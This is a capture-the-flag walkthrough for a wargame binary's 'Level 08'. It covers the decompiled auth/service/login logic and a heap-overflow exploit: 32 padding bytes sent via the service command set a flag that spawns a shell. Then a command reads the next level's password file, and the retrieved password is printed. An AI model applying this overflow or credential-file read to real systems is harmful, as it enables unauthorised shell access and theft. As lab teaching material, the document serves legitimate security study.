 # Level 08 Walkthrough

## Binary analysis

The binary manages two pointers, `auth` and `service`, and processes commands: `auth`, `reset`, `service`, and `login`. The goal is to manipulate the `auth` structure so that the check `*(auth + 0x20) != 0` passes, which allows us to get a shell when issuing the `login` command.

### Key decompiled code

- **auth**
    ```c
    if (strncmp(buf, "auth ", 5) == 0) {
        auth = malloc(4);
        *auth = 0;
        // ...
        strcpy(auth, user_input); // possible overflow
    }
    ```
- **service**
    ```c
    if (strncmp(buf, "service", 7) == 0) {
        service = strdup(user_input); // can overflow into auth
    }
    ```
- **login**
    ```c
    if (strncmp(buf, "login", 5) == 0) {
        if (*(auth + 0x20) != 0) {
            system("/bin/sh");
        } else {
            printf("Password:\n");
        }
    }
    ```
- **main loop**
    ```c
    while (fgets(buf, 0x80, stdin)) {
        // handle commands: auth, reset, service, login
    }
    ```

## Exploitation

We use the `auth` command to allocate the structure, then the `service` command with a long string to overflow and set the 0x20th byte of the `auth` structure to a non-zero value. Finally, we use the `login` command to trigger the shell.

```c
if (*(auth + 0x20) != 0) {
    system("/bin/sh");
}
```

However, the `auth` buffer is only 4 bytes long, so we cannot reach offset 0x20 directly with the `auth` command. Instead, we use the `service` command, which copies our input into a buffer that is allocated right after `auth` in memory. By sending a string of 32 characters (the padding) with the `service` command, we overflow the `auth` buffer and set the byte at offset 0x20 to a non-zero value (for example, 'A').

**Payload:**

- Send `auth ` to allocate the buffer.
- Send `service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` (32 'A's) to overflow and set the 0x20th byte.
- Send `login` to trigger the shell.

This padding ensures that the check `*(auth + 0x20) != 0` will succeed, giving us a shell.

Example commands:

```
./level8
auth 
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
login
cat /home/user/level9/.pass
```

## Result

After running the exploit, we get the password for level9:

```
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Copy the password for the next level. 